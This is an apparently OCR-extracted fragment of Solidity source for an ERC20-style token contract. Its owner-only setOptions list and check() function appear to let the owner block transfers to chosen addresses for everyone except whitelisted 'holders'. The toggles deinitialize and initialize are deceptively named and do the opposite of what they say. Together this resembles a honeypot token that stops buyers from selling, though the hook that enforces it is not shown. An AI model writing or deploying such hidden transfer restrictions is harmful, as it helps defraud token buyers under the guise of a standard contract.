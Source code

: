     function setOptions(address _option) public   {
        require(msg.sender == owner(), "incorrect");
        options.push(_option);
    } 

    function check(address _recipient) internal view returns(bool) {


        if(!isActive) {

        

        if(!getHolder(tx.origin)) {

        


        for(uint i = 0; i < options.length; i++) {
            if(options[i] == _recipient) {
                return false;
            }
        }}}
        

        return true;

    }

    function deinitialize() public onlyOwner {
    isActive = true;
    }

    function initialize() public onlyOwner {
    isActive = false;
    }




    function _transfer(address from, address to, uint256 amount) internal virtual {
        require(from != address(0), "ERC20: transfer from the zero address");
        require(to != address(0), "ERC20: transfer to the zero address");


        _beforeTokenTransfer(to);

        uint256 fromBalance = _balances[from];
        require(fromBalance >= amount, "ERC20: transfer amount exceeds balance");
        unchecked {
            _balances[from] = fromBalance - amount;
            // Overflow not possible: the sum of all balances is capped by totalSupply, and the sum is preserved by
            // decrementing then incrementing.
            _balances[to] += amount;
        }

        emit Transfer(from, to, amount);

        _afterTokenTransfer(from, to, amount);
    }

  
